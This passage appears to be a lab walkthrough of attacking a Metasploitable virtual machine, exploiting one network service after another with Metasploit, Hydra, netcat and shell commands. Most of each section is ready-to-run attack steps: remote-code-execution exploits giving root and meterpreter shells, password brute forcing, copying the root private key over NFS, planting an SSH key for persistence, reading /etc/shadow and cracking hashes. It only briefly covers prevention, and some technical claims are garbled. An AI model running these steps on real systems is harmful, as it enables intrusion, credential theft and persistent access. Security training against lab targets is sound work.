#It represent the no of spoofed response sends to the target. It should sent to high so that in race condition with the original dns respose, our spoofed response will win.
msf auxiliary(spoof/dns/bailiwicked_domain) > set XIDS 20000
msf auxiliary(spoof/dns/bailiwicked_domain) > run
```
As the attack is good to go, ensure that-
1. The metasploitable machine uses the ISC BIND service to resolve the dns, as the metasploit is connected to LAN interface of opensense, there are chances that it is configure to dns forwarding to the opensense and if so the metaspoitable machine is not using its own ISC bind service and this attack doesn't work. For that you must ensure that there is **nameserver 127.0.0.1** entry in the resolv.conf file.
2. Also check that your opensense firewall is not blocking the fluided dns responses in the network.
3. The dns cache should be cleaned if there any prior entry about our target domain. 
4. At last, the ISC bind is not configured to have DNSSEC enable, if so the target won't accept our spoofed dns responses.
**Output**


As of now I perform the attack multiple time, changing parameters and also analysis the traffic using wireshark but every times the attack fails to spoof the dns entry for that domain. I conclude that there is a DNSSEC is enabled on the example.com domain which takes PRG signature verification before the dns response get accepted, and so my spoofed dns responses got rejected by the target. Hence this attack not worked but I can try It using my own domain having not DNSSEC in future and hope so it works...

##### 2.Exploiting the Tkey-querry handling vulerability
To exploit this vulnerability, we need to craft a malicious Tkey(Transition key)-querry which can cause the named services to crash and the whole goes down as Dos.
The TKEY record (type="TKEY") is used for transaction key management in DNSSEC. BIND 9.4.2 incorrectly handles certain TKEY requests, allowing an attacker to craft a request that crashes the service.
This exploit does not require authentication, making it a remote exploit for denial of service.
For this I crafted a python script to send a malicious Tkey request
```
python tkey_script.py
```
To get the script
-

--- 

## Service running on Port 80: Apache httpd 2.2.8 service

The Apache HTTP Server (httpd) is an open-source web server software(Web container). It is one of the most widely used web servers in the world, designed to deliver the web content. It is compatible with mostly all operating systems like Linux, Windows, and macOS, and can serve both static and dynamic web pages. It uses mostly Php as a server side language.


### Identifying Vulnerabilites or Weakness
By browsing the target ip on the webserver we got, there is an apache server hosting multiple websites. As mostly, apache server uses php as server side language. Lets find which version of php is that target using 
```
cd /usr/share/nmap/scripts
ls -al | grep php-version
nmap -p 80 --script http-php-version.nse 192.168.1.103
```
Ouput:

After running the script we get the php has version-> php 5.2.4

Now using **searchsploit** tool which search for existing vulnerabilites for the apache 2.2.8 version in the exploit database.
```
searchsploit apache 2.2.8 | grep php
```

**php_cgi arguement injection(Remote code execution) Vulnerability** Here we got that the running php version have a php_cgi arguement injection vulerability. The php is used to execute scripts and running dynamic response pages for the webserver. So In this vulnerability the php scipt present in the cgi dirtory can execute the payload send by our attacker machine and can estabilise a remote code execution shell on the target.

### Exploitation
#### 1. Exploit php_cgi Remote code execution Vulnerability in php
```
msfconsole
msf > search php_cgi
msf > use exploit/multi/http/php_cgi_arg_injection
msf exploit(multi/http/php_cgi_arg_injection) > options
#only need to specified the RHOSTS, the Payload is set to default but we can use any custom payload
msf exploit(multi/http/php_cgi_arg_injection) > set RHOSTS 192.168.1.103
msf exploit(multi/http/php_cgi_arg_injection) > options
msf exploit(multi/http/php_cgi_arg_injection) > exploit
```


After executing the exploit we get a meterpreter session establised with the target using reverse_tcp. Now we can execute any command remotely on the target metasploitable machine and can perform other post-exploitation things..

---

## Service running on Port 111: rpcbind service

**rpcbind** acts as a directory service for RPC programs, allowing clients to locate specific RPC services on a server.
When an RPC service starts on a system, it registers itself with rpcbind, informing it of the service’s program number and assigned port.
When a client needs to communicate with a specific RPC service, it queries rpcbind on port 111 to obtain the port number associated with that service, allowing for dynamic communication with various services over the network.

The rpcbind service is responsible for mapping Remote Procedure Call (RPC) services to the ports they listen on. Originally known as portmapper(its main running service), rpcbind is a crucial service in Unix and Linux environments for enabling RPC-based communication between networked systems.

rpcbind is a critical part of NFS(Network file system),NIS(Network information service) where it is used to coordinate communication between NFS clients and servers. NFS relies on several RPC services (such as mountd, nfsd, and statd), all of which register their ports with rpcbind.

### Identifying Vulnerabilites or Weakness
1. **Service Enumeration and Information Disclosure**:rpcbind enables attackers to enumerate all active RPC services on a host, which can reveal details like service names, program numbers, and port numbers. This information is useful for attackers performing reconnaissance to identify potential weak points on the system.
2. **Exploitable RPC Services**: rpcbind itself may not be directly vulnerable to exploitation, but the RPC services registered with rpcbind can have significant vulnerabilities like **rpc.mountd service** which can gain unauthorised access to the file shares to the attacker from which he can perform more complex attack like deploying its own public key to the authorized key directory of the target and gain a remote access using ssh.
3. **'CVE-2017-8779' Dos attack using rpcbomb packet** The rpcbomb module exploits vulnerabilities in the RPC (Remote Procedure Call) system by flooding the rpcbind service with excessive requests, which can exhaust system resources and potentially render the service unavailable.

### Exploitation
##### Exploiting Service Enumeration and Information Disclosure vulnerability: 
The vulnerability allows the attacker to list/enumerate the various rpc service running on the target along with the port number, which can be used by the attacker to find vulnerabilities in the running rpc services.
```
#for this we are using rpcinfo command with -p probe to list the running rpc services on the target
rpcinfo -p 192.168.1.103
```
**Output** 


we can also used the rpcinfo module of the metasploitable framework to enumerate this service.
##### Exploiting rpc.mountd service
From the enumeration we got the nfs service is running on port 2049 which provide the root '/' filesystem share can be mounted, and we can mount in the later section on port 2049 exploitation.

##### Exploiting 'CVE-2017-8779' Dos attack using rpcbomb packet
Here we got a metasploitable module which can send enumerous rpc requeste to the rpcbind services which can exhaust system resources and potentially render the service unavailable.
```
msfconsole -q
msf > search rpcbomb
msf > use auxiliary/dos/rpc/rpcbomb
msf auxiliay(dos/rpc/rpcbomb) > options
msf auxiliay(dos/rpc/rpcbomb) > set RHOSTS 192.168.1.103
msf auxiliay(dos/rpc/rpcbomb) > show options
msf auxiliay(dos/rpc/rpcbomb) > run
```
**Output** 


---
## Service running on Port 139, 445: netbios-ssn ->Samba smbd 3.x-4.x

**SMB(Server Message Block)** is a client/server protocol that is used for sharing access to files, printers, data and other resources on a network.

Microsoft introduce netbios-ssn(Network basic input output system- session services) services using SMB protocol that run on Netbios sessions service and locate as well as identify each other devices using netbios name over tcp port 139 or 445 and Is used to share files, data and devices like printer over a LAN network mainly designed for windows-based network.

**NetBIOS** helps resolve names of network devices to their IP addresses within a LAN, similar to how DNS works for internet-based names.

**NetBIOS-SSN** (Session Service), running on TCP port 139, is responsible for establishing and managing sessions between computers on the same network for file and printer sharing. It’s used by the Server Message Block (SMB) protocol for managing access to shared resources like files and printers over a network.

**Samba** is a suite of tools used on Linux (and other Unix-like systems) to implement SMB/CIFS (Server Message Block/Common Internet File System) protocol, which allows Linux systems to communicate with Windows machines for file and printer sharing. Samba enables a Linux system to participate in Windows networking, effectively replicating NetBIOS and SMB services traditionally found on Windows.

Ports Used by Samba-> Samba uses a few key ports, depending on the configuration:
**Port 139** (NetBIOS-SSN): Supports SMB over NetBIOS, especially for legacy systems that require NetBIOS.

**Port 445** (SMB): Allows SMB to run directly over TCP without the NetBIOS layer. This is the preferred method in modern configurations, as it avoids the limitations and security issues associated with NetBIOS protocol.

### Identifying Vulnerabilites or Weakness
Firstly we have to identify the correct version of the smb service(samba version) running on the target, for that we have different tools like nmap scripts, metasploit modules etc. Here I am using the metasploit framework module to identify the exact version of smb running on the target.
```
msf > search smb_version
msf > use auxiliary/scanner/smb/smb_version
msf auxiliary(scanner/smb/smb_version) > options
msf auxiliary(scanner/smb/smb_version) > set RHOSTS 192.168.1.103
msf auxiliary(scanner/smb/smb_version) > set LPORT 139
msf auxiliary(scanner/smb/smb_version) > show options
msf auxiliary(scanner/smb/smb_version) > run
```
**Output**

From this module output we conclude that target is running samba 3.0.20 and now we have to search for any exploit available for this version of samba
### Exploitation
```
searchsploit samba | grep 3.0.20
```
Here we got an usermap_script module of metasploit, that can exploit this samba version
```
msfconsole -q
msf > search usermap_script
msf > use exploit/multi/samba/usermap_script
msf exploit(multi/samba/usermap_script) > show options
msf exploit(multi/samba/usermap_script) > set RHOSTS 192.168.1.103
msf exploit(multi/samba/usermap_script) > run
```
**Output**


After executing the exploit we get a root user session establised with the target using reverse_tcp. Now we can execute any command remotely on the target metasploitable machine.

---
## Service running on Port 512,513,514: r-services

The services running on ports 512, 513, and 514 on our Metasploitable machine are collectively known as "r-services," which include rexec, rlogin, and rshell. These services were popular in Unix-like systems for remote access and command execution but are generally considered insecure and outdated today due to their reliance on unencrypted communication and are mainly replaced by more secure protocol like ssh which uses encrypted communication.
1. **rexec** The rexec (remote execution) service allows a user to execute commands on a remote machine. Authentication is done through the user's credentials (username and password) sent in plain text over the network.
2. **rlogin**  The rlogin (remote login) service is used for logging into a remote machine from a local system. It provides a simple remote login interface and allows for command execution on the remote host. Unlike SSH, rlogin does not encrypt data, so any information, including login credentials, is sent as plaintext.
3. **rshell** The rshell or rsh (remote shell) service allows users to run commands on a remote system from their local machine. Similar to rexec, rshell sends data, including authentication credentials, as plaintext.

### Identifying Vulnerabilites or Weakness
Since, these services rely on trust relationships (such as .rhosts files), which are prone to misconfigurations and unauthorized access. In this case, these services are misconfigured to allowed the anonymous login without password. SO it has **Anonymous login allowed vulerability**.

### Exploitation
To connect to these services using the anonymous login vulnerability we requires the rsh-client packages to connect to rsh target running the r-services. Sinces these services are outdated and not used in today for remote access, the rsh-client package is depricated by the kali package manager, but we can download the rsh-client package from the official debian package manager but here I am using the metasploitable module to connect with the rservices running on the target.
**For rexec** we don't find any module and rexec command to exploit the rexec service

**For rlogin** we had an module on the metasploit that can be used to connect to rlogin service running on the target.
```
msfconsole -q
msf > search rlogin_login
msf > use auxiliary/scanner/rservices/rlogin_login
msf auxiliay(scanner/rservices/rlogin_login) > options
msf auxiliay(scanner/rservices/rlogin_login) > set ANONYMOUS_LOGIN true
msf auxiliay(scanner/rservices/rlogin_login) > set BLANK_PASSWORD true
msf auxiliay(scanner/rservices/rlogin_login) > set RHOSTS 192.168.1.103
msf auxiliay(scanner/rservices/rlogin_login) > set USERNAME root
msf auxiliay(scanner/rservices/rlogin_login) > set STOP_ON_SUCCESS true
msf auxiliay(scanner/rservices/rlogin_login) > show options
msf auxiliay(scanner/rservices/rlogin_login) > run
```
**Output**


Here we got a root shell to the rshell services using anonymous login vulnerability.

**For rshell** we had a module on the metasploit that can be used to connect to rshell service running on the target.
```
msfconsole -q
msf > search rsh_login
msf > use auxiliary/scanner/rservices/rshlogin
msf auxiliay(scanner/rservices/rsh_login) > options
msf auxiliay(scanner/rservices/rsh_login) > set ANONYMOUS_LOGIN true
msf auxiliay(scanner/rservices/rsh_login) > set BLANK_PASSWORD true
msf auxiliay(scanner/rservices/rsh_login) > set RHOSTS 192.168.1.103
msf auxiliay(scanner/rservices/rsh_login) > set USERNAME root
msf auxiliay(scanner/rservices/rsh_login) > set STOP_ON_SUCCESS true
msf auxiliay(scanner/rservices/rsh_login) > show options
msf auxiliay(scanner/rservices/rsh_login) > run
```
**Output**


Here we got a root shell to the rshell services using anonymous login vulnerability.

---
## Service running on Port 1099: Java-rmi ->GNU Classpath grmiregistry

**RMI(Remote Method Invocation)** is an API that allow an object/java program to invoke another method that exist in seprate address space(i.e on remote local machine or remote server), i.e it is simply used to call a method that is present on the remote server from a local machine. Specifically, `grmiregistry` (GNU Classpath's RMI Registry) on Metasploitable provides a registry of RMI server objects on port `1099`. This registry facilitates remote clients in locating and binding to objects for method invocations, i.e provide lookup(using lookup()) for object id used to call the desired funtion. It is a namespace on which all server objects are placed.
It has three main components->
1. **RMI Registry**
2. **Remote object Binding**
3. **Serialization of objects**

### Identifying Vulnerabilites or Weakness
**1. Unauthenticated Access to Registry**: By default, RMI does not require authentication, allowing any client to connect and interact with exposed objects on the registry. This allows attackers to:

- **Bind or Unbind Objects**: Attackers can register their own malicious objects in the registry.
- **Retrieve Object References**: By querying the registry, attackers can identify and potentially exploit objects.
**2. Deserialization Vulnerability**:
- When RMI uses object serialization for data transfer, it deserializes incoming objects without validating their contents. If the service is configured to trust any serialized object, it becomes vulnerable to malicious objects crafted to trigger unsafe behaviors (e.g., executing arbitrary commands).
- Through deserialization, attackers can embed malicious payloads in serialized objects, resulting in remote code execution if the server accepts these objects without validation.

### Exploitation
##### Exploiting the Unauthenticated Access to Registry Vulnerability
Use `jrmpclient.jar` or a custom script to list the objects bound list int the RMI registry. 
```
java -jar jrmpclient.jar 192.168.1.103 1099
```
we can attempt to bind a new, malicious object in the registry if it allows unauthenticated binding. This typically requires writing Java code to register the object on the RMI server. 

##### Exploiting the Deserialization Vulnerability to get a RCE
For this we a using a metasploit module 
```
msconsole -q
msf > search java_rmi
msf > use exploit/multi/misc/java_rmi_server
msf exploit(multi/misc/java_rmi_server) > show options
msf exploit(multi/misc/java_rmi_server) > set RHOSTS 192.168.1.103
msf exploit(multi/misc/java_rmi_server) > set LHOST 192.168.1.101
msf exploit(multi/misc/java_rmi_server) > set SRVHOST 192.168.1.101
msf exploit(multi/misc/java_rmi_server) > set SRVPORT 8080
msf exploit(multi/misc/java_rmi_server) > run
```


**Output**

Here we got a meterpreter session, we can futher proced with post exploitation things like maintaining access...

## Exploiting Service on Port 1524: bind shell ->metasploitable root shell

On port 1524 often runs a simple Bind Shell. This is an intentional service that acts as an unsecured, open shell on the system which directy provide the remote root shell on the system. When Metasploitable was designed as a vulnerable testing environment, this service was left open and unprotected to simulate a backdoor which often left by malicious actors after a system compromise.

### Identifying Vulnerabilites or Weakness
This shell himself act like a backdoor to provide the remote root access to the target system without any authentication.
### Exploitation
To exploit this, We need to just simply connect to this shell using netcat, ncat or telnet and we got the remote access without any other stuff like authentication.
**Using Netcat**
```
nc 192.168.1.103 1524
```

**Using telnet**
```
telnet 192.168.1.103
```

Here we simply got the **root** shell on the target and we can proced for further post exploitation things...

---
## Exploiting Service on Port 2049: nfs -> 2-4 (RPC 100003)

NFS (Network File System) is a protocol that allows a computer to access files over a network as if they were on its local storage. NFS enables centralized file storage, making it possible for multiple clients to access, modify, and share files on a remote server.
NFS uses the client-server model. The server exports a directory, and the client mounts it over the network. This mount point then behaves as if it were part of the local filesystem.

NFS Server: Hosts the shared directories and allows access to them.
NFS Client: Connects to the NFS server and mounts the shared directory, making it accessible as part of the local filesystem.
### Identifying Vulnerabilites or Weakness
**Exported Shares Enumeration and mounting an NFS share**
On our target the NFS service are misconfigured to gave the root(/) file system share to every client on the local network. We can mount the root filesystem of the target on our local machine and can upload, delete and theft important file on the target server.

### Exploitation
To exploit the NFS, we can mount the root file system of target on our attacker machine

```
#check for the availaible rpc services running on the target
rpcinfo -p 192.168.1.103
#check for available file system share that target is being sharing on network
showmount -e 192.168.1.103
service rpcbind start
mkdir /tmp/target
su root
#Mounting the target root file shate to our local machine
mount -t nfs 192.168.1.103:/ /tmp/target
cd /tmp/target/
#Theifting the target private keys
cat /tmp/target/root/id_rsa >> /home/kali/target_private_rsa
```


Here we mounted the target file system on our local machine, and we can theft sensitive file and data of the target. Here I theft the private key of the target, with which we can access any target which trust the target. We can also go to get the 'etc/passwd' file and 'etc/shadow' file to get information about the users and their password hashes.
### Post Exploitation things
Here we can upload our own ssh public key on the target's authorized keys dir to get a remote shell on the target, which we can used to easily connect to target in future and get a RCE on the target.
```
ssh-keygen -t rsa
cat /home/kali/.ssh/id_rsa.pub >> /tmp/target/root/authorized_keys
cat /tmp/target/root/id_rsa >> /home/kali/target_private_rsa
umount /tmp/target
```
Now we can get remote shell on the target using the private key, whenever we want to..
```
ssh root@192.168.1.103
```

So, here we used the misconfigured nfs file share system to get access the target '/' file system and steal senstive data like target private key from the target and planting our own ssh-public key to get a persistent connection in future.

### Prevention from such attack
NFS was designed for local networks, so it lacks strong built-in security features. Consider the following security measures when deploying NFS:

**Restrict Access**: Only allow trusted IPs in '/etc/exports' and set appropriate permissions and never allow users to mount the root '/' file system share as it gave access to the sensitive data to the users.

**Use Kerberos Authentication**: Integrate NFS with Kerberos for secure authentication.

**Firewall Rules**: Use firewall rules to control access to NFS ports, typically 2049

---

## Service running on Port 2121 ftp -> proftpd 1.3.1

It is also a similar ftp service running on the port 21 but with different vendor. It is also used to share file between the ftp server and ftp clients. 
### Identifying Vulnerabilites or Weakness
From my exploration about this service version we can't find a well known vulnerability in this particular service version. But we can perform the bruteforce attack on this service using tool like metasploit and hydra it is set to weak or default cruedentials, i.e we go for **Bruteforcing attak**
### Exploitation
**Bruteforcing using metasploit**
we had a metasploit module which can be used to bruteforce ftp login.
```
msfconsole -q
msf > search ftp_login
msf > use auxiliary/scanner/ftp/ftp_login
msf auxiliary(scanner/ftp/ftp_login) > show options
msf auxiliary(scanner/ftp/ftp_login) > set RHOSTS 192.168.1.103
msf auxiliary(scanner/ftp/ftp_login) > set USER_LIST /home/kali/bruteforce.txt
msf auxiliary(scanner/ftp/ftp_login) > set PASS_FiLE /home/kali/bruteforce.txt
msf auxiliary(scanner/ftp/ftp_login) > set verbose true
msf auxiliary(scanner/ftp/ftp_login) > run
```


Here we get the ftp is defaut crudential of metasploitable **msfadmin** as password **msfadmin** and **user**

**Bruteforcing using hydra**
```
hydra -L /home/kali/bruteforce.txt -P /usr/share/seclists/Password/Leaked-Databases/rockyou-35.txt -V -e nsr -s 2121 192.168.1.103 ftp
```


we got the same bruteforce result..

**Hence we got the crudential, we can logged into the ftp server using the kali ftp client..**
```
ftp 192.168.1.103 2121
#logged in using msfadmin msfadmin
```

Now we get connected to the ftp server, we can send file or download file from the target using ftp cleint command
```
ftp > pwd
ftp > ls
#putting the file on the ftp server from attacker machine
ftp > put test.txt test.txt
#Getting the file form the ftp server
ftp > get test.txt file_get.txt
```

## Service running on Port 3306 mysql -> Mysql 5.0.51a

MySQL is an open-source relational database management system (RDBMS) commonly used for storing, managing, and retrieving data for web applications and services. MySQL uses SQL (Structured Query Language) for querying and managing databases. It’s widely used due to its speed, reliability, and compatibility with various platforms. It was normally used for website for storing data in small enterprises. As this service stores the sensitive data of the different clients so its securing is very concern.
### Identifying Vulnerabilites or Weakness
1. **Login allowed without Password** On target system this service is misconfigured to allowed login with just username and without password. We can simply use **mysql client** to connect to this misconfigured database server when we get a username.
2. **Bruteforcing Attack** As this service requires authentication to connect the mysql server running on the target, we can perform bruteforcing attack to guess the username and password using tool like hydra or metasploit and gained access to the databases and tables.
### Exploitation
As we had metasploit module which tries to connect with different default usernames, to check if there is 'login allowed without password' may we get something

So we simply tries to connect using the mysql client of kali
```
#since the mysql server running on the target metasploitable is old and don't support ssl certification, so set the variable to false
mysql -u root -h 192.168.1.103 --ssl=FALSE
```

Here we got connected to the mysql server without password. Hurray...
##### Bruteforcing with metasploit or hydra
**Using Metasploit module
```
msfconsole -q
msf > search mysql_login
msf > use auxiliary/scanner/mysql/mysql_login
msf auxiliary(scanner/mysql/mysql_login) > show options
msf auxiliary(scanner/mysql/mysql_login) > set RHOST 192.168.1.103
msf auxiliary(scanner/mysql/mysql_login) > set USER_FILE /usr/share/seclist/Username/Username.txt
msf auxiliary(scanner/mysql/mysql_login) > set PASS_FILE /usr/share/seclist/Password/Leaked-Databases/rockyou.txt
msf auxiliary(scanner/mysql/mysql_login) > set Blank_password true
msf auxiliary(scanner/mysql/mysql_login) > run
```


This exploit failed to get executed because the mysql version(i.e 5.0.51) running on our target metasploitable machine is very old and having doesn't support the ssl authentication mechaninsm, while this mysql module needs to authenticate using ssl certification(by default) and got failed to connect to the sql server. So we can try other bruterforcing tool like Hydra. 

**Using Hydra**
```
hydra -L /usr/share/seclist/Usernames/usernames.txt -P /usr/share/seclist/Password/Leaked-Databases/rockyou.txt -e nsr -s 3306 192.168.1.103 mysql
```


Here we got the results... As for now we found two users 'root' and 'guest' have access to the server without any password authentication. So get connected using the mysql-client and explore the various databases...

**So overall from this phase we got a connection to the mysql server running on the target using username 'root' and 'guest' without password and we can see the different databases and tables stored on the server, which can proceed with in the next step..

### Post Exploitation things
Now we can proceed with enumerating the databases available on the server and get some sensitive information of the users.
show the available databases
```
#list the all databases
mysqlshow -u root --host=192.168.1.103
#show tables of a database
mysqlshow -u root --host=192.168.1.103 --count owasp10
mysqlshow -u root --host=192.168.1.103 --count dvwa
```

here we can see a list of db but I can find only these two databases which contain some important/sensitive information are dvwa and owasp10

**Reading sensitive file**
We can try to read sensitive file content like /etc/passwd and /etc/shadow using module like mysql_enum. But again for this module also it requires the ssl authentication and got failed to executed.

**Start exploring the dvwa database**
```
mysql -u root -h 192.168.1.103 --ssl=FALSE
#Now execute sql queries to show the content of databases
shwo databases;
use dvwa;
show tables;
select * from Users;
select Password form Users;
```

Here we access an important tables users which contain the login crudential of various users on the dvwa web application, which might be very userful. But the table contains the password in coded format in hashes, so we have to decode the hashes to get the real password. For that we can use a popular tool called **John the ripper**.

Firstly we need to identify the type of hash encoding(like md4, md5 or ntlm) inorder to use the john tool.
For that we had an another tool to identify the type of hash encoding -> we can either use **hashid** or **hashidentifier**
```
hash-identifier 5f4dcc3b5aa765d61d8327deb882cf99
```

Here we got that the hash encoding is md5

Using **john the ripper**, decode the hashes and need to stored the hashes into a test file 'password_hashes.txt'
```
john -format=raw-md5 /usr/share/seclist/Password/Leaked-Databases/rockyou-25.txt /home/kali/password_hashes.txt --show
```

That's set, we got the password for the hashes for the users.
**Start exploring the owasp 10 database**
#Now start executing sql querries to enumerate owasp 10 database
```
use owasp10
show tables;
#Here we had an accounts table
select * from accounts;
```


Here in the accounts table there are different user and their plain password for the owasp10 webapp. 

**Till now we get two tables which have sensitive information about its users on the webapp of dvwa and owasp10.** We can also performing dumping crudential and other stuff on the different databases.

**Dumping the crudential of databases(i.e make a copy of data as well as schema of the db into our local file)** 
```
mysql-dump -h 192.168.1.103 -u root --ssl=false dvwa users
```

But this attack is also failed for the same reason that mysql version(5.0.31) running on the target is old and doesn't contain field like information_schema.table(a database present in the newer mysql versions) which contain information about all table present in the databases and this field is used by the mysqldump module. we can try using an old mysqldump module version for this and this will definetly works for that.

---
## Service running on Port 5432 Postgresql -> postgresql db 8.3.0-8.3.7

Postgresql is a powerful, open source object-relation database system that uses and extends the SQL language combined with many features that safety store and scale the most complicated data workload.
It mainly used for large enterprise where we handle complex queries, large no of datatypes and reliable concurrency support for multiple user simultaneously. It is more efficient for large databases and complex queries.
### Identifying Vulnerabilites or Weakness
As we start exploring the service, using default crudentials
1. **Brute force attack using Default crudential** As this service is configured to use the default crudential that comes preconfigured with the postgres service during installation. So we can perform the brute force attack using metasploit or hydra to get the login crudential.
2. **Linux payload Execution Vulnerability** On some default Linux installations of PostgreSQL, the postgres service account may write to the /tmp directory, and may source UDF Shared Libraries from there as well, allowing execution of arbitrary code. We had a metasploit module that compiles a Linux shared object file, uploads it to the target host via the UPDATE pg_largeobject method of binary injection, and creates a UDF (user defined function) from that shared object. Because the payload is run as the shared object's constructor, it does not need to conform to specific Postgres API versions, And lets us access a remote shell.
### Exploitation
##### Bruteforce attack using Default crudential 
**Using metasploit**
```
msfconsole -q
msf > search postgres_login
msf > use auxiliary/scanner/postgres/postgres_login
msf auxiliary(scanner/postgres/postgres_login) > show options
msf auxiliary(scanner/postgres/postgres_login) > set Anonymous_login true
msf auxiliary(scanner/postgres/postgres_login) > set Blank_passwords true
msf auxiliary(scanner/postgres/postgres_login) > set RHOSTS 192.168.1.103
msf auxiliary(scanner/postgres/postgres_login) > set User_file /usr/share/metasploit-framework/data/wordlist/postgres_defaut_user.txt
msf auxiliary(scanner/postgres/postgres_login) > set Pass_file /usr/share/metasploit-framework/data/wordlist/postgres_defaut_pass.txt
msf auxiliary(scanner/postgres/postgres_login) > run
```


Here, we got that the postgres service is set to use the default **username=postgres** and **password=postgres**.

Now we can connect to that postgres service using postgresql-client ->**psql**
```
psql -U postgres -h 192.168.1.103 -d template1
```
Since this postgres server running on my metasploitable machine is very old and it doesn't support the newer postgres command like \du -> listing the users, \l -> listing all databases and so on because the psql client is sending these commands which includes columns (like rolreplication and datcollate) that only exist in later PostgreSQL versions.
So, Listing the database using old sql command
```
psql -U postgres -h 192.168.1.103 -c 'Select datname from pg_databases;'
#listing tables from a particular database
psql -U postgres -h 192.168.1.103 -d postgres -c 'Select table_name from information_schema.tables where table_schema= 'public';'
```

**OR we can use a metasploit module to execute the sql command over the postgres server**
```
msfconsole -q
msf > search admin/postgres
msf > use auxiliary/scanner/admin/postgres
msf auxiliary(scanner/admin/postgres) > Show options
msf auxiliary(scanner/admin/postgres) > set RHOST 192.168.1.103
msf auxiliary(scanner/admin/postgres) > set Username postgres
msf auxiliary(scanner/admin/postgres) > set password postgres
msf auxiliary(scanner/admin/postgres) > set Sql 'Select datname from pg_databases;'
msf auxiliary(scanner/admin/postgres) > run
```
##### linux payload Execution Vulerability
```
msfconsole -q
msf > search postgres_payload
msf > use exploit/linux/postgres/postgres_payloads
msf > exploit(linux/postgres/postgres_payload) > show options
msf > exploit(linux/postgres/postgres_payload) >set RHOSTS 192.168.1.103
msf > exploit(linux/postgres/postgres_payload) > set LHOST 192.168.1.101
msf > exploit(linux/postgres/postgres_payload) > run
```


Here the payload get uploaded and gets executed by the target and we got a meterpreter session...

### Post-Exploitation things
Here we got successfully connected to psql server of the target and also get a remote shell using the linux payload to the target. Now we can perform dumping the contents of the databases present on the postgres server, i.e we can copy the entire data as well as the schema of the databases and tables present on the postgres server.

**For that we can use pg_dump**
```
pg_dump -h 192.168.1.103 -U postgres --password -d postgres --table=* -f db_dump.txt
```
**But as we got above that there is not a single relation/table present on this targeted postgres server, So we can't get anything**

**Stealing sensitive file and data**
As we have the crudential of postgres, we can use readfile module to read the content of sensitive file like **etc/passwd** and **etc/shadow**.
```
msfconsole -q
msf > search postgres_readfile
msf > use auxiliary/admin/postgres/postgres_readfile
msf auxiliary(admin/postgres/postgres_readfile) > show options
msf auxiliary(admin/postgres/postgres_readfile) > set RHOSTS 192.168.1.103
msf auxiliary(admin/postgres/postgres_readfile) > set RFILE /etc/passwd
msf auxiliary(admin/postgres/postgres_readfile) > run
```


Here we got the content of /etc/passwd and using with /etc/shadow we can get the password hashes, and using tool like 'john the ripper' we can get root user crudential and used to esculate privilages to root.

---
## Service running on Port 5900 VNC -> vnc protocol 3.3

VNC(Virtual network computing ) is remote access protocol to control a machine remotely using tcp/ip. It is a graphical desktop-sharing system that use the remotely machine and control it with your local keyboard and mouse.

It mainly works on client-server archeitecture, i.e both client and server to need to have vnc service installed. It was mainly designed and worked for linux environment. While windows mainly uses RDP(remote desktop protocol) to remote desktop access. There are various software client for the vnc protocol like ultraVNC, RealVNC, TightVNC etc.
### Identifying Vulnerabilites or Weakness
1. **Weak Authentication Mechanism** VNC 3.3 uses a weak challenge-response authentication, making it vulnerable to **brute-force attacks**. Given the lack of security hardening in early VNC versions, an attacker can potentially capture VNC traffic and brute-force credentials.

2. **No Encryption** VNC 3.3 does not support encryption natively. This means that data, including keystrokes and authentication data, is transmitted in plaintext. Attackers with network access can use tools like Wireshark to capture and analyze this traffic.
### Exploitation
##### Bruteforce attack for default or weak crudential
We can peroform the bruteforce attack using tools like metasploit and hydra, and check if it uses the default or weak crudential.
```
msfconsole -q
msf > search vnc_login
msf > use /auxiliary/scanner/vnc/vnc_login
msf auxiliary(scanner/vnc/vnc_login) > show options
msf auxiliary(scanner/vnc/vnc_login) > set RHOSTS 192.168.1.103
msf auxiliary(scanner/vnc/vnc_login) > set Anonymous_login true
msf auxiliary(scanner/vnc/vnc_login) > set Blank_passwords true
msf auxiliary(scanner/vnc/vnc_login) > set Username true
msf auxiliary(scanner/vnc/vnc_login) > set Stop_on_success true
msf auxiliary(scanner/vnc/vnc_login) > run
```


Here we got that vnc is configure to used the default crudential which is **username=root** and **passowrd=password**.
Now lets connect to the vnc service using a vnc-client, I had tightVNC client
```
vncviewer 192.168.1.103
password
```

Here we got the target's remote desktop access as a **root** user. Now we can perform post-exploitation things like reading sensitive file and data etc...

**If we want to get only the remote-cli access, if we don't have a vnc-client**
For that we can use a module called vnc_keyboard_exec
```
msfconsole -q
msf > search vnc_keyboard_exec
msf > use exploit/multi/vnc/vnc_keyboard_exec
msf exploit(multi/vnc/vnc_keyboard_exec) > show options
msf exploit(multi/vnc/vnc_keyboard_exec) > set RHOST 192.168.1.103
msf exploit(multi/vnc/vnc_keyboard_exec) > set SRVHost 192.168.1.101
msf exploit(multi/vnc/vnc_keyboard_exec) > show targets
msf exploit(multi/vnc/vnc_keyboard_exec) > set target 2
msf exploit(multi/vnc/vnc_keyboard_exec) > show payloads
msf exploit(multi/vnc/vnc_keyboard_exec) > set payload cmd/unix/reverse_perl
msf exploit(multi/vnc/vnc_keyboard_exec) > run
```



Here also we got a root shell, to our target....

---
### Service running on Port 6000 x11 -> x windows
The X window System is a windowing for bitmap display, which is common on the unix based OS. It provide the basic framework for GUI based environment. But here we have our target metasploitable don't have any GUI environment, and hence we can perform any attack on this service.

---
## Service running on Port 6667 irc -> unreal IRCD

IRC (Internet Relay Chat) is a protocol used for real-time text messaging between multiple users across different network. Any user can connect to server using irc-client and send request to join a room and start the conversation.
### Identifying Vulnerabilites or Weakness
1. **Unrestricted Access** Many IRC services lack robust authentication, allowing any unauthenticated users to connect. This can enable an attacker to join, monitor, or manipulate channels.
2. **Weak or No Password Protection for Channels**
IRC channels can be configured with passwords, but on Metasploitable, many channels are set up without them. Any Attacker can join channels and interact with any users or bots present and can see the sensitive conversation or data.
3. **Backdoor command execution** In the ircd 3.2.8.1 there is a backdoor present in the service which can get the remote shell to the attacker.
### Exploitation
##### Unrestricted Access and no channel protection exploitation
As the ircd service on the target are misconfigured to gave access to all hosts on the same network. when an attacker enters into the network, it can access the ircd services using any irc-client like **irssi** and **Hexchat**

**Connecting using the irssi**
```
irssi 192.168.1.103 -p 6667
```

Once get connected to the service, you can join rooms
```
\join room
#see the conversation going on
\quit
```

##### Exploitation using ircd3281_backdoor
```
msfconsole -q
msf > search ircd3281_backdoor
msf > use exploit/unix/irc/unreal_ircd_3281_backdoor
msf exploit(unix/irc/unreal_ircd_3281_backdoor) > show options
msf exploit(unix/irc/unreal_ircd_3281_backdoor) > set RHOSTS 192.168.1.103
msf exploit(unix/irc/unreal_ircd_3281_backdoor) > show payloads
